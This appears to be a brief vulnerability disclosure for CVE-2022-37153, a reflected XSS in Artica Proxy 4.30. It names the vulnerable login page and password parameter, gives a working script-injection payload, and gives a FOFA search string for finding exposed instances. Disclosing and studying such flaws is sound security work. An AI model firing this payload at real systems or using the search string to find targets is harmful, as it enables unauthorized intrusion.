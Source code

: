 # CVE-2022-37153
There is a XSS  vulnerability  in Artica Proxy 4.30.000000

vulname:              Artica Proxy reflected XSS

vulnerable page:      /fw.login.php

vulnerable param:     password

payload:              "><script>alert(1)</script>

FOFA:                 icon_hash="-27821316"
